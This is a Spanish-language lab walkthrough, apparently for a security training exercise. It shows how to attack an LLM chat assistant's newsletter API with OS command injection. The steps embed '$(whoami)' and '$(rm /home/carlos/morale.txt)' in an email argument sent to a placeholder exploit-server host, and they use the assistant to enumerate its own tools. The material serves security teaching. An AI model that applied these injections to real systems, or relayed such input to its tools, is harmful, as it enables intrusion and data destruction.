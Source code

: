 
---

## 🧨 Lab: Explotación de vulnerabilidades en LLM APIs (Command Injection)

**Objetivo:**  
Eliminar el archivo `morale.txt` del directorio `/home/carlos` aprovechando una vulnerabilidad de **OS Command Injection** a través de una API expuesta al LLM.

---

### 📚 Conocimientos aplicados:

- Mapeo de la superficie de ataque del LLM.
    
- Inyección de comandos del sistema operativo (`$(...)`) en contextos vulnerables.
    
- Explotación indirecta mediante una API controlada por el LLM.
    

---

### ✅ Solución paso a paso:

1. 💬 Iniciar **Live Chat**.
    
2. Preguntar:
    
    ```
    what APIs do you have access to?
    ```
    
    ➤ El LLM responde que tiene acceso a:
    
    - Password Reset
        
    - Newsletter Subscription ✅
        
    - Product Information
        
3. 📌 Analizar:
    
    - La **Newsletter Subscription API** puede estar ejecutando comandos del sistema para enviar correos.
        
    - Usaremos esta API para intentar inyectar comandos.
        
4. Preguntar:
    
    ```
    what arguments does the Newsletter Subscription API take?
    ```
    
    ➤ El LLM confirma que espera una dirección de correo como argumento.
    
5. Probar interacción con:
    
    ```
    attacker@YOUR-ID.exploit-server.net
    ```
    
    ➤ Confirmar que llega un correo → prueba exitosa.
    
6. Intentar ejecución de comando:
    
    ```
    $(whoami)@YOUR-ID.exploit-server.net
    ```
    
    ➤ Si el correo llega a algo como `carlos@...` → **el comando se ejecutó correctamente**.
    
7. Ejecutar payload para eliminar el archivo:
    
    ```
    $(rm /home/carlos/morale.txt)@YOUR-ID.exploit-server.net
    ```
    
    ➤ Aunque el LLM diga “something went wrong”, si el archivo se elimina, ¡**lab resuelto**!
    

---

### 🧠 Lección clave:

Este laboratorio demuestra cómo APIs aparentemente inofensivas (como una suscripción por correo) pueden ser un canal para inyección de comandos si están **mal validadas** y el LLM tiene acceso a ellas.

---
![LAB2 LLM](https://github.com/user-attachments/assets/8834657e-7966-40c0-b78e-78380f9d171a)

